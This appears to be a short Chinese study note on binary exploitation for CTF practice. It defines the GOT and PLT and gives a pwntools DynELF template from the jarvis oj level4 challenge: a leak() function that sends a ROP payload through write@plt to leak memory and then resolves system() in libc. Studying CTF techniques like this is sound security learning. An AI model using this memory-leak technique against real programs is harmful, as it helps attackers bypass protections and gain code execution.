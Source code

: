 [Link](https://blog.csdn.net/linyt/article/details/51635768)

简称|全称|Desc
-|-|-
GOT|Global Offset Table|存放函数地址的数据表，重局偏移表
PLT|Procedure Link Table|额外代码段表，称为程序链接表

联合出手完成重定位。

![](imgs/C01.jpg "Optional title")

### DynELF
https://blog.csdn.net/qq_43986365/article/details/95081996
模板, jarvis oj - level4
```py
def leak(address):
    payload=flat(pad, writeplt, ret1, 1, address,4)
    io.sendline(payload)
    leak_sysaddr=io.recv(4)
    #print "%#x => %s" % (address, (leak_sysaddr or '').encode('hex'))   这里是测试用，可省略。
    return leak_sysaddr
d = DynELF(leak, elf=ELF("对应文件"))
sysaddr=d.lookup("system","libc")
```
